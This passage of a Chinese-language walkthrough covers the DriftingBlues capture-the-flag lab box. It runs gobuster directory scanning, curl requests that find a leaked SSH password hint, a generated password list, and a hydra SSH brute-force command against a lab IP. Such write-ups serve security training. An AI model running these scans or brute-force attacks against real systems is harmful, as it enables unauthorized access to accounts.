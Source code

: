 ```
sudo vi /etc/hosts
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
http://test.driftingblues.box/
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

访问后没什么提示，再做一次目录扫描

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://test.driftingblues.box -x php,html,txt,zip
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

扫描到robots.txt文件，打开看看

```
curl http://test.driftingblues.box/robots.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

有一个ssh_cred.txt文件，看下什么内容

```
curl http://test.driftingblues.box/ssh_cred.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

提示说SSH的密码是1mw4ckyyucky，shenryl在密码最后加上了一个数字

生成个密码字典，暴破SSH

user.txt

```
`eric``sheryl`
```

pass.txt

```
`1mw4ckyyucky0``1mw4ckyyucky1``1mw4ckyyucky2``1mw4ckyyucky3``1mw4ckyyucky4``1mw4ckyyucky5``1mw4ckyyucky6``1mw4ckyyucky7``1mw4ckyyucky8``1mw4ckyyucky9`
```

SSH密码破暴

```
hydra -L user.txt -P pass.txt 192.168.7.181 ssh
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

